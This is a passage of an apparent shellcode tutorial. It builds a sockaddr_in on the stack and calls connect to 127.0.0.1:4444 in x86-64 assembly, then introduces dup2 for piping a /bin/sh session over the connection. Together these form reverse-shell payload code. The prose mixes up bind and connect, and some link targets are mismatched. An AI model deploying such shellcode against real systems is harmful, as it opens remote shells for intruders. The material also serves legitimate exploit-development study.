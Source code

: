       0         1   2         3   4                       7
    +------+------+------+------+------+------+------+------+
    | sin_family  |  sin_port   |         sin_addr          |    ↑ lower addresses
    +------+------+------+------+------+------+------+------+    |  stack
    |                       sin_zero                        |    | higher addresses
    +------+------+------+------+------+------+------+------+

Since the stack grows from higher to lower addresses, the structure members are pushed onto the stack in reverse order from the one they appear in the declaration: `sin_zero`, then `sin_addr`, `sin_port` and lastly `sin_family`.

In the C code you can see the port to bind to is passed to `htons()`. On x86(-64) this function basically swaps the two bytes of the port number. So if you pass 0x0d3d to `htons()` it would return 0x3d0d on such a system. Why is this needed? Because the [endianness][endianness] of the processor (little-endian) is not the same as that used by the network (big-endian). So you have to reverse the bytes of port numbers (and IP addresses) so that the network understands you. And that is precisely what `htons()` or "host-to-network-short" does. You can use Python to do these conversions:

    $ python3
    >>> import socket
    >>> hex(socket.htons(4444))
    '0x5c11'
    socket.inet_aton("127.0.0.1").hex()
    '7f000001'

At last, the third argument to the `bind` syscall is the size of the address structure, which as seen in the memory diagram above is 16 bytes.

    ; server.sin_family = AF_INET;    short
    ; server.sin_port = htons(4444);    unsigned short
    ; server.sin_addr.s_addr = inet_addr("127.0.0.1");    unsigned long
    ; bzero(&server.sin_zero, 8);
    ; AF_INET = 2
    ;
    ; connect(sock, (struct sockaddr *)&server, sockaddr_len)
    ; __NR_connect = 42

    xor rax, rax
    push rax          ; bzero()
    mov dword [rsp-4], 0x0100007f
    sub rsp, 4
    push word 0x5c11  ; htons(4444)
    push word 2

    ; connect
    mov rax, 42
    mov rsi, rsp
    mov rdx, 16  ; sizeof(sockaddr_in)
    syscall

### `dup2()`

These [`dup(2)`][man_2_dup2] syscalls will make sure all keystrokes arriving through the connection are passed to the process that will be spawned (`/bin/sh`) and that its output and errors goes back into the connection.


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7